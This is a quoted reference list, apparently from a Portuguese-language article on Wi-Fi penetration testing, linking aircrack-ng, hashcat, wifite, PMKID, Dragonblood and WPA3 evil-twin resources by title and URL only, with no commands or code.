> - [Aircrack-ng: Cracking WPA (documentação oficial)](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)
> - [Kali Linux Tools: aircrack-ng](https://www.kali.org/tools/aircrack-ng/)
> - [Aircrack-ng WPA2 Handshake Capture and Crack Tutorial (2026)](https://tutorials.technology/tutorials/aircrack-ng-wpa2-handshake-tutorial.html)
> - [Wireless Pentesting com hcxdumptool (Th4ntis, fev 2025)](https://th4ntis.com/guide/2025/02/06/Wireless-Pentesting-HCXDumptool.html)
> - [PMKID Attack: InfiShark Tech (2025)](https://infishark.com/blogs/learn/the-wpa2-pmkid-attack-a-faster-way-to-test-wifi-security)
> - [Wireless Penetration Testing Methodology (2026)](https://www.decryptiondigest.com/blog/wireless-penetration-testing-methodology)
> - [Wifite2 GitHub (derv82)](https://github.com/derv82/wifite2)
> - [Kali Linux Tools: wifite](https://www.kali.org/tools/wifite/)
> - [Wifite: StationX Tutorial (2026)](https://www.stationx.net/how-to-use-wifite/)
> - [Dragonblood: A Security Analysis of WPA3's SAE Handshake (Vanhoef & Ronen, Semantic Scholar)](https://www.semanticscholar.org/paper/Dragonblood:-A-Security-Analysis-of-WPA3's-SAE-Vanhoef-Ronen/8ff38f0627217ebcc7add9ad2a69bb28cd3dd6cf)
> - [Por que WPA3 ainda não acabou com o Wi-Fi Hacking (Payatu, 2025)](https://payatu.com/blog/wpa3-isnt-the-end-of-wi-fi-hacking/)
> - [Transition Trap: WPA3 e Evil Twin (RedLegg)](https://www.redlegg.com/blog/wpa3-evil-twin-attack)
> - [Hack WPA/WPA2 com aircrack-ng e hashcat (Medium)](https://medium.com/@brannondorsey/crack-wpa-wpa2-wi-fi-routers-with-aircrack-ng-and-hashcat-a5a5d3ffea46)
